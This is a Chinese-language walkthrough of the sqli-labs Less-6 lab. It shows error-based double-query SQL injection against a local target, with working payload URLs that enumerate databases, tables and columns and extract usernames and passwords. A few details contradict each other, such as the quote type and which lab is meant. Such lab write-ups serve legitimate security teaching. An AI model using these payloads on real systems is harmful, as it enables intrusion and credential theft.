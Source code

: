 ## 练习开始


首先打开http://127.0.0.1/Less-6/?id=1
![](luffy1.png)

less-5是基于错误的GET双引号变形字符型注入，位置在where之后且后跟limit




`
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo "<font size='5' color= '#99FF00'>";
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
`


和之前Less-5的区别在于由单引号改成了双引号

测试用的payload
```
" and 1=1 %23 返回正确
" and 1=1 %23 返回错误

```

**%23和--+等价**


针对该题可以用盲注的方式搞定，根据本题标题，双注入 还是用显错式的方式



最常见的查询方式是
`
select count(*), concat('~',(select user()),'~', floor(rand()*2))as a from users group by a;
`

派生表的查询方式
`
select 1 from (select count(*), concat('~',(select user()),'~', floor(rand()*2)) as a from information_schema.tables group by a)x;
`




## 手工注入

###获取当前数据库

`
http://127.0.0.1/Less-6/?id=1"
`
![](luffy2.png)

看到语句出错，因为双注入查询利用的就是**print_r(mysql_error());**回显错误信息

获取当前数据库版本
`
http://127.0.0.1/Less-6/?id=1" union select 1, count(*), concat('~',(select version()),'~', floor(rand()*2)) as a from users group by a --+
`
![](luffy3.png)



获取当前用户
`
http://127.0.0.1/Less-6/?id=1" union select 1, count(*), concat('~',(select user()),'~', floor(rand()*2)) as a from users group by a --+
`
![](luffy4.png)




### 判断当前数据库数量


`
http://127.0.0.1/Less-6/?id=" union select 123, count(*), concat('~',(select count(*) from information_schema.schemata),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`
![](luffy5.png)
一共五个数据库

判断第一个数据库
`
http://127.0.0.1/Less-6/?id=" union select 123, count(*), concat('~',(select schema_name from information_schema.schemata limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`
![](luffy6.png)
通过修改limit之后的第一个参数逐步遍历数据库



### 检查security数据库的表


`
http://127.0.0.1/Less-6/?id=" union select 123, count(*), concat('~',(select count(*) from information_schema.tables where table_schema="security" ),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`
![](luffy7.png)

可以知道security有四个表



通过修改limit之后的第一个参数逐步遍历数据库的表
`
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select table_name from information_schema.tables where table_schema="security" limit 0,1 ),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`
![](luffy8.png)


### 检查security数据库中user表的列

判断列的数量
`
http://127.0.0.1/Less-6/?id=" union select 123, count(*), concat('~',(select count(*) from information_schema.columns where table_schema='security' and table_name="users"),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

`
![](luffy9.png)

检查列的内容
`
http://127.0.0.1/Less-6/?id=" union select 123, count(*), concat('~',(select column_name from information_schema.columns where table_schema='security' and table_name="users" limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

`
![](luffy10.png)


### 爆出数据

`
http://127.0.0.1/Less-6/?id=" union select 123, count(*), concat('~',(select concat_ws(":",username,password) from users limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
`

![](luffy11.png)







双注入的原理解释
[链接一](http://www.myhack58.com/Article/html/3/7/2016/73471.htm)
[链接二](https://www.cnblogs.com/dplearning/p/7355595.html)


